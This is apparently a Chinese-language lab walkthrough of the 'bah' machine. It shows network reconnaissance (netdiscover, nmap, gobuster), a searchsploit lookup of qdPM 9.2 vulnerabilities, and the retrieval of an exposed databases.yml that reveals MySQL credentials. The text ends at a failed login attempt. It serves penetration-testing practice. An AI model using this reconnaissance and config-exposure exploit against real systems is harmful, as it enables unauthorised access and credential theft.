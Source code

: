 
|   |   |   |
|---|---|---|
|bah|easy|qdpmcms利用、mysql利用、host碰撞、shellinaboxd使用、pspy分析隐藏进程提权|


```c
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -i eth0 -r 192.168.44.141/24
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.141 
```
80 3306
```css
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.44.141/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,png -e
```

访问80发现是qdPMcms的网站，直接searchsploit
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ searchsploit qdPM 
qdPM 9.2 - Cross-site Request Forgery (CSR | php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthentica | php/webapps/50176.txt

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ searchsploit -m php/webapps/50176.txt

https://www.exploit-db.com/exploits/50176
http://<website>/core/config/databases.yml
```

下载得到数据库的用户密码http://192.168.44.141/core/config/databases.yml
```c
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qpm;host=localhost'
      profiler: false
      username: qpmadmin
      password: "<?php echo urlencode('qpmpazzw') ; ?>"
      attributes:
        quote_identifier: true  
```

重新安装漏洞http://192.168.44.141/install
但是登陆时候确是404http://192.168.44.141/index.php/login
